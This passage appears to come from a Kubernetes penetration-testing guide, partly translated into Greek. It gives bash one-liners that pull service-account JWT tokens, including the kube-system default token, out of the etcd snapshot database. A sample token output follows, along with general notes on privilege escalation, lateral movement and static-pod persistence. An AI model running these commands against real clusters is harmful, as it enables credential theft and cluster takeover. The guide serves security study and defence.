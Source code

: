 ```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```
**Ίδια εντολή, αλλά με μερικά greps για να επιστρέψει μόνο το προεπιλεγμένο τοκεν στο namespace kube-system**
```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
```markdown
## Attacking Kubernetes from Inside a Pod

When an attacker gains access to a Kubernetes pod, they are already inside the cluster and can perform various attacks to escalate their privileges and move laterally within the cluster.

### Privilege Escalation

#### Exploiting Service Accounts

Service accounts in Kubernetes are used by pods to interact with the API server. If an attacker gains access to a pod with highly privileged service account credentials, they can abuse these credentials to escalate their privileges within the cluster.

### Moving Laterally

#### Accessing the Kubernetes API Server

Once inside a pod, an attacker can attempt to access the Kubernetes API server using tools like `kubectl` or by sending direct API requests. This can allow the attacker to gather information about the cluster, deploy malicious workloads, or even take control of the entire cluster.

#### Exploiting Misconfigurations

Attackers can also look for misconfigurations within the cluster that may allow them to move laterally. This could include weak RBAC policies, exposed dashboards, or insecure network policies that enable communication with other pods.

By understanding these attack techniques, security professionals can better defend their Kubernetes clusters and prevent unauthorized access from within a compromised pod.
```
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```
### Μόνιμη Αντοχή Στατικών/Καθρεφτισμένων Pods

_Τα Στατικά Pods_ διαχειρίζονται απευθείας από τον δαίμονα kubelet σε ένα συγκεκριμένο κόμβο, χωρίς τον διακομιστή API να τα παρατηρεί. Αντίθετα από τα Pods που διαχειρίζονται από το επίπεδο ελέγχου (για παράδειγμα, ένα Deployment); αντ' αυτού, το **kubelet παρακολουθεί κάθε στατικό Pod** (και το επανεκκινεί αν αποτύχει).
